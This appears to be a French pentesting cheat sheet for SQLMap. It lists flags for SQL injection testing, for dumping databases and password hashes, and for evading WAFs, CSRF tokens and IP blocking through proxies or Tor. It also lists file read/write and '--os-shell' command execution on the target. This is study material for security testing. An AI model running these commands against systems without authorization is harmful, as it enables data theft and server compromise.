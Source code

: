 # SQLMap

---
## Utilisation
* copier la requette dans le navigateur as curl
    ```bash
     # url
     -u <URL>  

     # skip user input by putting defauft
     --batch

     # pour trouver automatiquement les parametres
     --crawl, --forms 

     # specifier le cookie
     --cookie='<MonCookie>'

     # Header
     -H 'Cookie:<MonCookie>' 

     # enregistrer output
     -t <Path> 

     # verbose in terminal
     -v 6 

     # --host, --referer

     # specifier la methode
     --method <NomDeMethode ( PUT, GET ..)>
     
     # afficher les erreurs 
     --parse-errors

     # prefix
     --prefix="<Prefix>"
     
     # suffix
     --suffix="<Suffix>"
    ```

* cas d'un get, on peut fournir la data avec --data 
    ```bash
    sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
    ```
* Indiquer si le parametre est vulnérable 
    ```bash
    # utiliser -p <parametre> ex : -p uid
    # utiliser * dans --data ex :
    sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
    ```

* copier des paramètres
    > utilisation des requettes burps à sauvegarder en txt
    ```bash
    sqlmap -r maRequette.txt
    ```

---
## Énumération de la base de données

```bash 

 # architecture de la db
 --schema 

 # version
 --banner 
 
 # be shure to have the correct content
 --no-cast

 # dumper la db
 --dump | --dump-format html

 # specifier l'user actuel
 --current-user 
 
 # specifier la db actuelle
 --current-db 

 # DUMP PASSWORDS 
 --passwords

 # enumerer toutes les tables
 --tables
 -D <dbName>

 # rechercher 
 --search <AutresTags: -T -C .. >
 # enumerer tout le contenu de la table
 -T <TableName>

 # enumerer des colonnes précises
 -C <ColName>

 # specifier les lignes
 --start=<Nbr> | --stop=<Nbr>

 # enumeration conditionnelle
 --where="<Condition"

 # tout dumper
 --dump-all

 # DO ALL AUTOMATICALY
 --all

 --union-cols=<NbrColonne>
```
---
## Bypassing Web Application Protections

```bash
# Anti-CSRF Token Bypass
--csrf-token="<NomVariableToken>"

# Unique Value Bypass
--randomize=<VarToRandomize>

# Calculated Parameter Bypass
--eval="import hashlib; h=hashlib.md5(id).hexdigest()"


# IP Address Concealing (cacher)
    # show list of proxy
    --proxy-file
    #concealing
    --proxy | --proxy="socks4://177.39.187.70:33283"
    # check if tor is installed
    --check-tor

# WAF Bypass
 --skip-waf

# User-agent Blacklisting Bypass
--random-agent

# Tamper Scripts : specifier un encodage spécifique : ex: space2comment, 
    # list of all temper 
    --list-tampers
    # usage
    --tamper=<tamperName> | --tamper "<tamperName>"

# Miscellaneous Bypasses : chuncked splits the POST request's body
--chunked
```
---
## OS Exploitation

###  File Read/Write
```bash
# Checking for DBA Privileges : si user est admin
--is-dba

# read file 
--file-read "<Path>"

# write file 
--file-write "<FileName>" --file-dest "<PathInTarget>"
```
### OS Command Execution
```bash
# get a reverse shell
--os-shell --technique=<techniqName | E >
```


    
